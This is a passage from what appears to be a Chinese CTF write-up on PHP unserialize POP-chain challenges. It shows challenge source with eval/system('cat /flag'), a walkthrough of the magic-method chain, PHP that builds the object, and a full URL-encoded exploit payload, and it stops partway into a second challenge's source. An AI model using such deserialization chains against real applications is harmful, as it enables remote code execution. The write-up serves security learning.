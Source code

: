 ```php
    }
}

class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");
    }
}

class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }

    public function getflag() {
        echo "you are over!";
    }
}
```
:::

反序列化，先触发wakeup()方法，通过echo触发toString方法，通过$this->chu0->$nononono触发get()方法，最后调用$this->over->getflag();查看flag

```php
$payload = new web();
$payload -> kw = new re();
$payload -> kw -> chu0 = new pwn();
$payload -> kw -> chu0 -> over = new Misc();

echo urlencode(serialize($payload));
```

可以打印出payload`?ser=O%3A3%3A%22web%22%3A2%3A%7Bs%3A2%3A%22kw%22%3BO%3A2%3A%22re%22%3A1%3A%7Bs%3A4%3A%22chu0%22%3BO%3A3%3A%22pwn%22%3A2%3A%7Bs%3A4%3A%22dusk%22%3BN%3Bs%3A4%3A%22over%22%3BO%3A4%3A%22Misc%22%3A2%3A%7Bs%3A7%3A%22nothing%22%3BN%3Bs%3A4%3A%22flag%22%3BN%3B%7D%7D%7Ds%3A2%3A%22dt%22%3BN%3B%7D`

## [Week2] Really EZ POP

考点：`反序列化的属性`

源码

::: details
```php
<?php
highlight_file(__FILE__);

class Sink
{
    private $cmd = 'echo 123;';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
    public function __invoke()
    {
```